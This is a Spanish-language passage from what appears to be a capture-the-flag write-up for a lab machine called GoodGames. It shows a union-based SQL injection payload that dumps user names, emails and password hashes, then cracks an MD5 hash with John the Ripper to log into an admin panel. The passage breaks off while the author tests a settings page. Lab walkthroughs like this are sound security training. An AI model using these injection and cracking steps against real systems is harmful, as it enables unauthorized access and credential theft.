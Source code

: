 ```mySQL
email=' union select 1,2,3,group_concat(name,0x3a,email,0x3a,password) from user limit $i,1-- -&password=fadsf
```

Y nos lista sólo una credencial:

![image](../zimages/Pasted_image_20241031153852.png)

Vamos a intentar descifrar ese hash con johntheripper, para ello metemos el hash en un archivo con el comando `echo '2b22337f218b2d82dfc3b6f77e7cb8ec' > hash` y se lo especificamos a johntheripper con este comando, donde utilizamos el parámetro "--format=Raw-MD5" para especificarle el tipo de hash: 

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash 
```

Nos saca esto:

![image](../zimages/Pasted_image_20241031154856.png)

Ahora que tenemos un usuario y una contraseña,vemos que ya nos deja entrar al panel de "internal-administration.goodgames.htb/index". Si nos vamos a 'settings' dentro de la web, nos aparece lo siguiente:

![image](../zimages/Pasted_image_20241031140345.png)

Vamos a probar a poner alguna cosa como 'test':
